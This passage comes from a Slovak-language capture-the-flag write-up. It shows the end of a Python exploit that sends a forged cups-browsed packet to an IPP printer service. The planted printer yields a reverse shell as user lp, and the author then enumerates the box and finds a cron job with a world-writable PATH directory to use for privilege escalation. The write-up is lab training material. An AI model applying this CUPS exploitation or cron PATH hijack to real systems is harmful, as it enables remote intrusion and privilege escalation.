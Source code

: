 ```python
    TARGET_HOST = "ipp.powergrid.tcc"
    TARGET_PORT = 631
    send_browsed_packet(TARGET_HOST, TARGET_PORT, SERVER_HOST, SERVER_PORT)

    print("Please wait this normally takes 30 seconds...")

    seconds = 0
    while True:
        print(f"\r{seconds} elapsed", end="", flush=True)
        time.sleep(1)
        seconds += 1
```

Skript spustím, na stránke sa zjaví nová tlačiareň, ktorú tam vsunul skript, dám tlačiť skúšobnú stránku a mal by sa spustiť príkaz, ktorý vytvorí reverse shell session na mojej penelope. Session sa mi vytvorila a som ako používateľ lp.

```shell
lp@ea3246f8dec9:/$ id
uid=7(lp) gid=7(lp) groups=7(lp)
```

Prehľadal som všetky env premenné príkazom `set`, aj som dal prehľadať či sa niekde nenachádza súbor, čo obsahuje `FLAG{` prípadne base64 variantu `RkxBR` príkazom `grep -R -a -l -E 'RkxBR|FLAG\{' / 2>/dev/null`, ale nenašlo mi vlajku vôbec, takže treba hľadať ďalej.

Penelope ponúka celkom solídne skripty, tak si ich nahrám do nejakej zapisovateľnej zložky, napríklad `/tmp`. Ale rovno tam vidím zapísaný nejaký súbor `stats.txt` používateľom cups_admin, do ktorého home sa nedostanem, možno ma vyššie práva. Po nahraní skriptov som sa jeden pokúšal spustiť, ale vyhodilo mi chybu, že súbory neexistujú a pri vylistovaní súborov, tam skutočne neboli a súbor stats.txt mal inú časovú pečiatku. To zaváňa cron taskom.

```shell
lp@ea3246f8dec9:/tmp$ crontab -l
no crontab for lp
```

Vo `/var/log/cron.log` nie je nič, okrem `=== Script Output ===`, ale zrejme beží nejaký skript, tak som skúsil prehľadať filesystem na tento výraz, ale nenašlo nič. Pozriem cron zložky v /etc.

Hmm

```shell
lp@ea3246f8dec9:/etc/cron.d$ cat statistics-job
* * * * * cups_admin PATH=/opt/scripts:/usr/bin:/bin /usr/bin/python3 /opt/secure-scripts/statistics.py -n /opt/scripts/print_count.sh > /var/log/cron.log 2>&1
```

Je tam skript, ku ktorému sa nedostanem, ale má argument a zrejme volá iný skript, ku ktorému sa ale dostanem.

```shell
lp@ea3246f8dec9:/opt$ ls -la
total 20
drwxr-xr-x 1 root root     4096 Oct 21 04:01 .
drwxr-xr-x 1 root root     4096 Oct 21 16:00 ..
drwxr-xrwx 1 root cronexec 4096 Oct 21 16:25 scripts
drwxr-x--- 1 root cronexec 4096 Oct 21 16:25 secure-scripts
lp@ea3246f8dec9:/opt$ cd secure-scripts/
bash: cd: secure-scripts/: Permission denied
lp@ea3246f8dec9:/opt$ cd scripts/
lp@ea3246f8dec9:/opt/scripts$ ls -la
total 16
drwxr-xrwx 1 root cronexec 4096 Oct 21 16:25 .
drwxr-xr-x 1 root root     4096 Oct 21 04:01 ..
-rwxr-xr-- 1 root cronexec  343 Oct 21 16:25 print_count.sh
lp@ea3246f8dec9:/opt/scripts$ cat print_count.sh
#!/bin/bash

```